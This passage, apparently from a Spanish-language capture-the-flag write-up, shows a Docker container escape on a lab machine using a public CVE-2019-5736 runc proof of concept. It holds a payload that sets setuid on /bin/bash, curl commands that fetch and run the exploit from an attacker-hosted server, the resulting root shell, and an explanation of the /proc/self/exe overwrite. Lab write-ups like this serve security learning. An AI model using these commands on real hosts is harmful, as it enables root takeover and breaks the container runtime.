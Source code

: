 ```console
Docker version 18.06.0-ce, build 0ffa825

└─$ git clone https://github.com/Frichetten/CVE-2019-5736-PoC 
└─$ cd CVE-2019-5736-PoC; cat main.go
# var payload = "#!/bin/bash \n chmod u+s /bin/bash"
└─$ go build -ldflags "-s -w" main.go
└─$ upx main # reducir su tamaño

noah@thenotebook:/tmp$ curl -s http://10.10.14.16/main -O
noah@thenotebook:/tmp$ chmod +x main
noah@thenotebook:/tmp$ hostname -I
10.10.10.230 172.17.0.1

noah@thenotebook:/tmp$ python3 -m http.server 6666
root@0f4c2517af40:/tmp# curl -s http://172.17.0.1:6666/main -O
root@0f4c2517af40:/tmp# chmod +x main
```
Ejecutamos el payload:

```console
root@e9b5f5fae303:/opt/webapp# ./main # -> [+] Overwritten /bin/sh successfully
noah@thenotebook:/tmp$ sudo /usr/bin/docker exec -it webapp-dev01 /bin/sh   # -> No help topic for '/bin/sh'
noah@thenotebook:/tmp$ ls -l /bin/bash # -> -rwsr-xr-x 1 root root 1113504 Jun  6  2019 /bin/bash
noah@thenotebook:/tmp$ bash -p
bash-4.4# 4
```
--------------------------
# Extra: como funciona el exploit

[Fuente](https://github.com/lxc/lxc/commit/6400238d08cdf1ca20d49bafb85f4e224348bf9d)
```
El exploit se aprovecha de "runc" que es el sistema que corre los contenedores.
El ataque se realiza o cuando inicias un contenedor o te conectas a uno en ejecucion. Consiste en remplazar
el binario de destino (ej /bin/bash) del contenedor con uno malicioso que apunta hacia runc.

El malicioso que sustituye a /bin/bash apunta al interprete #!/proc/self/exe que es un enlace simbolico 
al "docker exec/runC"  

Como el kernel no permite escritura y ejecucion a la vez el script abre un descriptor de archivo en /proc/self/exe
usando "O_PATH" y lo reabre con "O_WRONLY" a traves de /proc/self/fd/PID_de_runc por tanto se separan los procesos

Cuando ejecuts runC este se reescribe y ejecuta a la vez por el #!/proc/self/exe. 
```
El tema con este exploit esque si no hace un backup rutinario de runC este al sovreescribirse se destruye y el 
sistema no puede correr dockers más.
